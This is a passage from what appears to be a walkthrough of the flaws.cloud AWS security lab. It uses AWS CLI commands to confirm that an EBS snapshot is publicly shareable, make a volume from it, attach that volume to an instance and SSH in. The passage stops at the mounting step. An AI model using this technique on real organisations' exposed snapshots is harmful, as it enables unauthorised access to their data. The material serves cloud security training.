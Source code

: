 ```bash

# check the permissions on this snapshot
aws ec2 describe-snapshot-attribute \
    --snapshot-id snap-0b49342abd1bdcb89 \
    --attribute createVolumePermission \
    --profile flaws
# {
#     "CreateVolumePermissions": [ { "Group": "all" } ],
#     "SnapshotId": "snap-0b49342abd1bdcb89"
# }
# anyone can create a volume based on this snapshot!
```


3. create-volume

```bash
# create an EC2 volume for us-west-2 with the snapshot-id of the public EC2 snapshot found earlier.
aws ec2 create-volume \
    --availability-zone us-west-2a \
    --region us-west-2 \
    --snapshot-id snap-0b49342abd1bdcb89 \

# verify that it worked, seeing the volume listed.
aws ec2 describe-volumes \
    --region us-west-2
```

4. create ec2


```bash
# create an EC2 in the us-west-2 region

# 1. in the storage options, choose the volume you just created.

# 2. attach the volume to the instance
aws ec2 attach-volume \
    --volume-id vol-0fb33b360dc095bf9 \
    --instance-id i-0b2f1bdcbfda7602b \
    --device /dev/sdf \
    --region us-west-2


# see the instance using
aws ec2 describe-instances \
    --region us-west-2


# SSH in:
ssh -i YOUR_KEY.pem ec2-user@ec2-54-191-240-80.us-west-2.compute.amazonaws.com
```


5. mount it.
